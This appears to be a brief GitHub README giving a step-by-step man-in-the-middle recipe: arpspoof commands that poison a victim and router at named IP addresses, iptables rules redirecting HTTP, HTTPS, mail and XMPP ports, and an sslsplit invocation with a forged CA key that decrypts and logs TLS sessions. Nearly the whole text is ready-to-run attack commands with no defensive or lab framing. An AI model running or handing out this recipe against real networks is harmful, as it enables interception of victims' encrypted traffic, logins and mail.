 ARP Spoof
=========
1. Tell the victim, I am the router  
`sudo arpspoof -t 35.12.214.227 35.12.214.1`  
2. Tell the router, I am the client.  
`sudo arpspoof -t 35.12.214.1 35.12.214.227`  

SSL Split Attack
================
1. Configure the iptables (make sure the victim can receive the packets)  
sudo sysctl -w net.ipv4.ip_forward=1  
sudo iptables -t nat -F  
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080  
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 5222 -j REDIRECT --to-ports 8080  
2. Start the ssl split (You should pre-create directory in /tmp folder)  
`sudo ./sslsplit -D -l connections.log -j /tmp/sslsplit/ -S /tmp/sslsplit/logdir/ -k cakey.pem -c cacert.pem ssl 0.0.0.0 8443 tcp 0.0.0.0 8080`  

# Ref: https://www.roe.ch/SSLsplit
# Ref: https://blog.heckel.xyz/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/
